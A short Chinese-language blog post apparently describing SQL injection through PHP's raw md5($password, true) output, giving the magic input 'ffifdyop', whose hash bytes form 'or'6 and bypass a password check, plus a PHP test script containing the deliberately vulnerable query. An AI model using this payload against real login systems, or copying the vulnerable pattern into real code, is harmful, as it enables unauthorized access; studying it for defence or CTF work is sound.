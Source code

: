 ##SQL injection with raw MD5 hashes

</br>
今天看到 <code>$sql = "SELECT * FROM admin WHERE pass = '".md5($password,true)."'";</code>  
这样的一个sql，是可以注入的

思路是这样的，当md5后的hex转换成字符串后，  
如果包含 'or'<trash> 这样的字符串，那整个sql变成  
<code>SELECT * FROM admin WHERE pass = ''or'6<trash\>'</code>  
很明显可以注入了。

难点就在如何寻找这样的字符串，我只是顺手牵羊，牵了一个。。  
提供一个字符串：ffifdyop  
md5后，<code>276f722736c95d99e921722cf9ed621c</code>  
再转成字符串： 'or'6<trash\>

---
>测试代码：

	<?php
		error_reporting(0);
		$link = mysql_connect('localhost', 'root', '');
		if (!$link) {   
		die('Could not connect to MySQL: ' . mysql_error());   
		}  
		// 选择数据库  
		$db = mysql_select_db("test", $link);  
		if(!$db)  
		{  
		  echo 'select db error';  
		  exit();  
		}  
		// 执行sql  
		$password = "ffifdyop";  
		$sql = "SELECT * FROM admin WHERE pass = '".md5($password,true)."'";  
		var_dump($sql);  
		$result=mysql_query($sql) or die('<pre>' . mysql_error() . '</pre>' );  
		$row1 = mysql_fetch_row($result);  
		var_dump($row1);  
		mysql_close($link);
	?>

4/20/2016 8:38:02 PM 